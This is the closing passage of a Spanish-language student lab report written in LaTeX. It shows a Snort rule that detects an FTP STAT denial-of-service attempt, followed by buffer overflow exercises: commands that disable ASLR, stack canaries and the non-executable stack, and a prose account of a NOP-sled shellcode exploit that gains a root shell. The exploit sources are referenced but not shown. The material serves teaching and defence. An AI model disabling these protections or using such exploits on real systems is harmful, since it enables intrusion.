\end{enumerate}

\subsubsection{Detección de denegación de servicio}

Antes de poder ponerle remedio a un ataque del que en teoría desconocemos su funcionamiento, en primer lugar debemos observar y comprender qué está pasando. \\

La figura \ref{fig:snort10} muestra un fragmento de las trazas capturadas durante el ataque de denegación de servicio. En ellas, vemos cómo se produce una petición incongruente al servicio ftp (traza nº 1842 o 1857) que se va repitiendo en el tiempo sistemáticamente. Con ello, se puede concluir que se está produciendo un ataque DoS al servicio ftp.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/SNORTtrazas.png}
\caption{Trazas durante la denegación de servicio.}
\label{fig:snort10}
\end{figure}

Una vez analizada la situación, podemos añadir una regla a Snort para que se detecte automáticamente la próxima vez que suceda. \\

En nuestro caso, añadimos el paquete de reglas para ftp (figura \ref{fig:snort11}) que incluye una regla en concreto para detectar esta denegación de servicio. La peculariedad de esta regla radica en la detección del mensaje envíado por el atacante mediante una expresión regular, que se indica en el parámetro pcre.

\begin{verbatim}
alert tcp $EXTERNAL_NET any -> $HOME_NET 21
  (msg:"FTP EXPLOIT STAT * dos attempt";
  flow:to_server,established;
  content:"STAT";
  nocase;
  pcre:"/^STAT\s+[^\n]*\x2a/smi";
  reference:bugtraq,4482;
  reference:cve,2002-0073;
  reference:nessus,10934;
  classtype:attempted-dos;
  sid:1777;
  rev:7;)
\end{verbatim}

\begin{figure}[htbp]
\centering

\includegraphics[width=0.9\textwidth]{./images/SnortFtp.png}
\caption{Adición de las reglas de ftp.}
\label{fig:snort11}
\end{figure}

Una vez reiniciado el servicio, se vuelve a ejecutar la denegación de servicio y se observa que Snort detecta perfectamente el ataque (figura \ref{fig:snort12}).

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/Snortftpdos.png}
\caption{Detección de la denegación de servicio.}
\label{fig:snort12}
\end{figure}


%%%%%%%%%%%%%%%%% Buffer Overflow
\clearpage
\section{Buffer Overflow}
\rhead[\thepage]{\thesection. Buffer Overflow}

Buffer Overflow es una vulnerabilidad causada por la inserción de datos con tamaño superior al esperado por un buffer. Este hecho provoca el desbordamiento del buffer y la sobrescritura de espacios adyacentes en la pila o incluso en zonas de memoria reservadas para otras cosas. Dichas zonas de memoria pueden contener información
importante para el correcto funcionamiento del programa o incluso información sensible del usuario o de otros programas. \\

Actualmente los sistemas operativos tienen ciertas medidas para paliar estas vulnerabilidades. Se va a proceder a la desactivación de esas medidas para poder ejecutar los programas:

\begin{itemize}
  \item Direcciones aleatorias. Actualmente Ubuntu y otros sistemas usan un direccionamiento aleatorio en la pila para hacer que más difícil ejecutar un buffer overflow con éxito. Para desactivarlo:
  \begin{verbatim}
  $ sudo sysctl -w kernel.randomize_va_space=0
  \end{verbatim}

  \item Esquema de protección de pila. En honor a los canarios que se utilizaban en las minas, la pila tiene una palabra denominada canario que coloca entre los buffers y los datos. De tal forma, si el canario no coincide con el original, no se ejecuta el programa. Para desactivarlo:
  \begin{verbatim}
  $ gcc -fno-stack-protector programa.c
  \end{verbatim}

  \item Pila no ejecutable. Ubuntu usa pilas tanto ejecutables como no ejecutables. Sin embargo, utiliza la no ejecutable por defecto para evitar buffer overflows. Para hacerla ejecutable:
  \begin{verbatim}
  $ gcc -z execstack programa.c
  \end{verbatim}
\end{itemize}

\subsection{Modificación de variables}

Dado el siguiente código funcional (\texttt{myVar.c}), vamos a modificarlo y hacer que genere un buffer overflow.

%%% Importar fichero
\lstinputlisting[breaklines]{doc/myVar.c}

\begin{figure}[H]
\centering

\includegraphics[width=0.325\textwidth]{./images/BOstack.png}
\caption{Pila de los programas myVar.c y myVar\_BO.c.}
\label{fig:bo1}
\end{figure}

La forma de hacerlo es percatarse de que hay un buffer \texttt{c} cuya capacidad es 28 y provocar un desbordamiento en el mismo. Tal como se indica en la figura \ref{fig:bo1}, inmediatamente tras el buffer se encuentra la variable \texttt{myVar}. Así pues, cuando se produzca el desbordamiento en el buffer, se sobreescribirá esta variable y ésta mostrará lo que deseemos. El programa denominado \texttt{myVar\_BO.c} cumple con esta funcionalidad. \\

La comparación entre los resultados de los programas se refleja en la figura \ref{fig:bo2}. \\

%%% Importar fichero
\lstinputlisting[breaklines]{doc/myVar_BO.c}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/BOmyvar.png}
\caption{Resultado de los programas myVar.c y myVar\_BO.c.}
\label{fig:bo2}
\end{figure}

\subsection{Shellcode básico}

El apartado anterior contemplaba la posibilidad de, gracias al desbordamiento de buffer, conseguir cambiar el valor a una variable posterior. En esta ocasión, vamos a hacer un desbordamiento que genere un bash gracias a una pila ejecutable. \\

Tras compilar y ejecutar el siguiente código, obtenemos el bash que se muestra en la figura \ref{fig:bo3}.\\

%%% Importar fichero
\lstinputlisting[breaklines]{doc/call_shellcode.c}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/BOshellcode.png}
\caption{Resultado de call\_shellcode.c.}
\label{fig:bo3}
\end{figure}

\subsection{Shellcode avanzado}

De forma similar al shellcode básico, tenemos la llamada al bash en un shellcode que hemos de conseguir ejecutar dado un código básico. \\

Para ello, lo que hacemos es rellenar el buffer de NOPs e incluir el shellcode al final del fichero. Además, se coloca la dirección a saltar encima del shellcode (figura \ref{fig:bo5}).\\

La intención inicial fue provocar que el return que tiene la pila de la función bof hacia el main se vea alterado justamente por la dirección a saltar. Sim embargo, acceder a tal dirección exacta no es trivial, por lo que hemos decidido aprovechar los NOPs del buffer inicial para corromper ese return (figura \ref{fig:bo6}) y hacer que recorra la pila hasta que se encuentre con la dirección que hemos introducido, salte y se ejecute el shellcode, obteniendo así un shell como root (figura \ref{fig:bo4}).

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/BOpilaexploit.png}
\caption{Pila del programa exploit.c.}
\label{fig:bo5}
\end{figure}


%%% Importar fichero
\lstinputlisting[breaklines]{doc/exploit.c}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/BOpilastack.png}
\caption{Pila del programa stack.c antes y después del Buffer Overflow.}
\label{fig:bo6}
\end{figure}

%%% Importar fichero
\lstinputlisting[breaklines]{doc/stack.c}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/BOexploit.png}
\caption{Resultado de exploit.c. y stack.c.}
\label{fig:bo4}
\end{figure}

%%%%%%%%%%%%%%%%% Conclusiones y valoraciones personales
\clearpage
\section{Conclusiones y valoraciones personales}
\rhead[\thepage]{\thesection. Conclusiones y valoraciones personales}

Es obvio que cada sistema desarrollado necesita paralelamente otro sistema de seguridad que lo proteja ante ataques. \\

\begin{table}[htbp]
\begin{center}
\begin{tabular}{|p{3.0cm}||p{3.0cm}|p{3.0cm}||p{3.0cm}|}
\hline
Estudiante & Primera parte & Segunda parte & Total \\
\hline \hline
Alicia & 41 & 57 & 98 \\ \hline
Cristian & 78 & 26 & 104 \\ \hline
Total & 119 & 83 & 202 \\ \hline
\end{tabular}
\caption{Horas dedicadas a cada parte de la práctica.}
\label{tabla:sencilla}
\end{center}
\end{table}

\end{document}
